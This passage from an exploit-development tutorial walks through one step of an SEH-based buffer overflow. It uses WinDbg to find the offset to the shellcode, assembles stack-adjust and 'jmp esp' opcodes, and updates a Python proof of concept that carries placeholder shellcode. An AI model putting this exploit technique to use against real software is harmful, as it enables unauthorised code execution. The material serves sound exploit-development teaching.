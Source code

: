 ### 10. Reach our Shellcode.<a name="ReachShellcode"></a>

Now we need to find the offset from our current stack pointer to the beggining of our shellcode.

```bash
0:009> s -b 007be000 007c0000 90 90 90 90 43 43 43 43 43 43
007bfc60  90 90 90 90 43 43 43 43-43 43 43 43 43 43 43 43  ....CCCCCCCCCCCC

0:009> dd 007bfc60
007bfc60  90909090 43434343 43434343 43434343
007bfc70  43434343 43434343 43434343 43434343
007bfc80  43434343 43434343 43434343 43434343
007bfc90  43434343 43434343 43434343 43434343
007bfca0  43434343 43434343 43434343 43434343
007bfcb0  43434343 43434343 43434343 43434343
007bfcc0  43434343 43434343 43434343 43434343
007bfcd0  43434343 43434343 43434343 43434343

0:009> ? 007bfc64 - @esp
Evaluate expression: 2072 = 00000818

```

Using the space available after our short jump, we will assemble instructions to increase the stack pointer by 830 bytes followed by a "JMP ESP" to jump to our shellcode next.

Generate the opcodes and verify that it didn't containt any bad characters.

```bash
┌──(v0lk3n㉿Omen-Laptop)-[~/SEH-Overflow-Basic]
└─$ msf-nasm_shell
nasm > add sp, 0x830
00000000  6681C43008        add sp,0x830
nasm > jmp esp
00000000  FFE4              jmp esp
```

Now update the PoC to add those two instructions.

```python
...
size = 1000

shellcode = b"\x90" * 8
shellcode += b"\x43" * (400 - len(shellcode))

inputBuffer = b"\x41" * 124
inputBuffer += pack("<L", (0x06eb9090)) # (NSEH)
inputBuffer += pack("<L", (0x1015a2f0)) # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
inputBuffer += b"\x90" * 2
inputBuffer += b"\x66\x81\xc4\x30\x08"  # add sp, 0x830
inputBuffer += b"\xff\xe4"              # jmp esp
inputBuffer += b"\x90" * (size - len(inputBuffer) - len(shellcode))
inputBuffer += shellcode
...
```
